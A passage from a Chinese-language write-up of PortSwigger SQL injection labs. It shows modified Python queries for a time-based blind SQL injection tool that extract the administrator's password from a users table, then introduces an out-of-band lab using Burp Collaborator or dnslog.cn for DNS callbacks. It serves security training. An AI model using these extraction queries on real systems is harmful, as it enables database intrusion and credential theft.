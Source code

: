 再跑一次 Option 0 的 System Test 就會成功ㄌ！


接下來這一題也是已知 Table 跟 Column，所以可以直接用 Option 6 來取資料，不過需要注意的是，因為 Time Based 的緣故，所以 Thread 數量必須設為 1。


這邊為了加速，也可以直接修改關於 `get_data()` 的程式，在 SQL 語法後面加上 `WHERE username='administrator'`，就可以只取 administrator 的密碼。
```python
schema = ''
data_size_right = f"(SELECT COUNT({column}) FROM {table} WHERE username='administrator')"
data_str_len_right = "(SELECT LENGTH({column}) FROM {table} WHERE username='administrator' LIMIT 1 OFFSET {schema_num})"
data_name_right_condition = "(SELECT ASCII(SUBSTRING({column},{data_name_index},1)) FROM {table} WHERE username='administrator' LIMIT 1 OFFSET {size})"
```

```
Your Option : 6
Threads (Suggest 10): 1
Table Name : users
Column Name (support '||'): password
```

跑下去後，可以去泡個咖啡，看個影片，吃個飯再回來收結果 QQ， Time Based 真的很慢。

等跑完後，就會噴 administrator 的密碼ㄌ！

## [Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)
### 題目敘述
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 
### 題目解釋
這一題需要用到 Blind Based 的 Out of Bound，也就是需要想辦法讓 SQL 發出 DNS 查詢的請求。不過這一題下面備註有提到，必須使用 Burp Suite Pro，當然現實場景上不一定會需要用到，這邊只是因為他們的防火牆設計對外只能連 `burpcollaborator.net` 的緣故，這邊常見可以使用的替代方案是 http://dnslog.cn/ 。 由於這提需要使用到 Burp Pro，而且價格不斐，所以沒有的人可以跳過。

### 解答
開啟 Burp Suite Pro 後，左上角選 `Burp Collaborator client`
![](https://i.imgur.com/MOPxCsG.png)

接下來點選 `Copy to clipboard`，此時按下貼上，出現的 domain，只要有接收到 Request 或是 DNS 的查詢，就會出現在下面的框框中。


回到 Web，這一題只需要讓 SQL 做查詢就好，觀察 [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 做 OOB 的 Payload
